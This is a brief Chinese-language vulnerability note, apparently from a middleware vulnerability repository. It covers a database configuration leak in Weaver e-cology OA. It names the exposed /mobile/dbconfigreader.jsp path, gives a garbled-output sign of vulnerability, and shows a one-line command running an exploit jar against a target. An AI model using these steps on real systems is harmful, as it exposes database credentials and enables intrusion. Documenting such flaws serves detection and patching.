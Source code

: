 # 泛微OA数据库配置信息泄露  

漏洞环境：ip+port+/mobile/dbconfigreader.jsp  出现乱码即存在漏洞  

利用过程：
```
java -jar ecologyExp.jar ip+port  
```

![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/%E6%B3%9B%E5%BE%AEe-cology%20OA/%E6%95%B0%E6%8D%AE%E5%BA%93%E9%85%8D%E7%BD%AE%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2/PIC/p.jpg)